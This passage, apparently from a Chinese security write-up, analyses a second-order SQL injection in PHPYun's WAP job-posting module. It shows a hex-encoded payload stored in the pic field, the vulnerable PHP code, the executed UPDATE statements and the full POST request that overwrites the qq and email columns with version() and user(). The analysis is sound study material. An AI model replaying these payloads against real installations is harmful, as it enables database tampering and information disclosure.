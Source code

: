 通过设置id和password，也顺利地通过了校验进入到update的操作流程中。

![](img/20180316-7.jpg)

程序执行的SQL语句是：
```SQL
UPDATE `phpyun_once_job` SET `mans`='0',`title`='1',`require`='4',`companyname`='2',`phone`='15071111111',`linkman`='3',`salary`='',`provinceid`='',`cityid`='',`three_cityid`='1�\',`address`=',pic=0x272c2071713d76657273696f6e28292c20656d61696c3d757365722829207768657265203123,`status`=0,`password`=0x6531306164633339343962613539616262653536653035376632306638383365,`edate`=1526222139 #',`status`='0',`password`='e10adc3949ba59abbe56e057f20f883e',`edate`='1526545754',`pic`='0' WHERE 1 and `id`='1'
```
其中的`pic`和`password`都进行了编码，`pic`为`0x272c2071713d76657273696f6e28292c20656d61696c3d757365722829207768657265203123`。最后更新至数据库中的值是`', qq=version(), email=user() where 1#`:

![](img/20180316-8.jpg)

#### 二次注入
既然我们已经将`', qq=version(), email=user() where 1#`插入至数据库中，下一步就是取出这个值再次执行SQL语句。前文就说过，存在如下的代码：
```PHP
if ($_POST['pic']!=''){
    $data['pic']=$_POST['pic'];
}else{
    $data['pic']=$arr['pic'];
}
```
如果POST中存在pic参数，则取参数值；否则从数据库中取值。所以这次我们不设置pic的值，其余的值保持不变(不需要设置`three_cityid`和`address`)。
```
URL: http://localhost/wap/index.php?c=once&a=add
POST: title=1&companyname=2&linkman=3&phone=15071111111&require=4&salary=&&edate=60&password=123456&checkcode=5902&title=1&companyname=2&linkman=3&phone=15071111111&&salary=&file=undefined&edate=60&password=123456&checkcode=5902&submit=%e5%8f%91%e5%b8%83&id=1
```

此次执行的SQL语句是：
```SQL
UPDATE `phpyun_once_job` SET `mans`='0',`title`='1',`require`='4',`companyname`='2',`phone`='15071111111',`linkman`='3',`salary`='',`provinceid`='',`cityid`='',`three_cityid`='',`address`='',`status`='0',`password`='e10adc3949ba59abbe56e057f20f883e',`edate`='1526546437',`pic`='', qq=version(), email=user() where 1#' WHERE 1 and `id`='1'
```
最终数据库中的`qq`和`email`的内容都发生了改变。
